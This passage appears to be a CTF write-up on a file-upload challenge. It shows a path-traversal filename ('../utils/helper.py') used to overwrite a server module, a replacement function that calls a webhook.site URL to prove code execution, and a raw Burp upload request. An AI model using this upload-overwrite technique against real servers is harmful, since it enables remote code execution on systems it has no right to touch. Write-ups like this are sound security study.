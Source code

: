 **=> Given all that, here’s my hypothesis: what if we upload a file named `helper.py` into `/utils` so it becomes `/utils/helper.py` — will it overwrite the original file, and will `main.py` then import and execute *our* version?**

Since we can’t directly view uploaded files, I’ll validate by making a request to a webhook. If the webhook receives it, that proves our approach worked — we overwrote `helper.py`, and it got executed.

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image2.png" | relative_url }})

`Lỗi xử lý file: module 'utils.helper' has no attribute 'rename_file'` => We hit the `except` path. This error shows we successfully changed `helper.py`, and now it no longer has `rename_file`, hence “no attribute”. So yes, we can modify `helper.py`.

=> After poking around, I realized it’s simpler to just *replace* `rename_file` instead of defining a new function, since `rename_file` is already called by `main.py`.

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image3.png" | relative_url }})

Looks reasonable, but this time it complains about missing params.

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image4.png" | relative_url }})

=> `Lỗi xử lý file: No module named 'requests'` =)) likely the server environment doesn’t have `requests` installed. So we need a way that doesn’t rely on extra packages. Ideally something from the Python standard library.

Another path: reuse already-imported libraries => 100% usable. The tastiest one is `os`. I tried the simplest approach with `curl`, but that likely won’t work if `curl` isn’t installed on the box.

So the new question: **“Is there a way to make an HTTP request in Python without `requests`?”** => The tip was to use `urllib.request`, which *is* part of the standard library. Exactly what I needed.

![image]({{ "/assets/img/2025-05-11-FileUploadChall/image5.png" | relative_url }})


=> Using `urllib.request`, my `rename_file` just pings the webhook like so:

```python
def rename_file(a,b):
    import urllib.request
    urllib.request.urlopen("https://webhook.site/3262fb17-7439-4e6f-a284-b56b7c710cf4")
```

=> I threw it into Burp with a full HTTP request. The fields I changed were the `filename` and the file content:

```
POST /uploader HTTP/1.1
Host: 113.171.248.61:8008
Content-Length: 333
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://113.171.248.61:8008
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXcPpDrFHoeoueZrJ
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.171.248.61:8008/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJudW1fZmlsZSI6Mn0.aB7eyg.c3bUkOPwXjXIdMrwO5oB53LsGSM
Connection: keep-alive

------WebKitFormBoundaryXcPpDrFHoeoueZrJ
Content-Disposition: form-data; name="files"; filename="../utils/helper.py"
Content-Type: text/x-python

```
